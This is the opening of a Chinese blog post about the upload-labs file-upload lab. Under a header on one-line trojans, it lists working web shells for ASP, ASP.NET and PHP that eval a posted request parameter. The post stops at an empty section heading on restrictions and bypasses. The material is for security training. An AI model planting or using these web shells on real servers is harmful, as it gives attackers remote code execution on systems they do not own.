```yaml
---
layout:     post
title:      upload-labs
subtitle:   文件上传
date:       2020-3-12
author:     YY
header-img: img/post/2.jpg
catalog: true
tags:
    - upload-labs
---
```


## 前言
[文件上传](https://yangyang-linux.gitee.io/2021/02/04/dvwa%E4%B9%8B%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0/)
## 各版本的一句话木马
```bash
ASP（.asp）: 
<%eval request("cmd")%> 

ASP.NET(.ASPX): 
<%@ Page Language="Jscript"%> 
<%eval(Request.Item["cmd"],"unsafe");%> 

PHP: 
<?php @eval($_POST['hacker'])?> 

变形一句话：https://blog.csdn.net/bylfsj/article/details/101227210
```

## 限制与绕过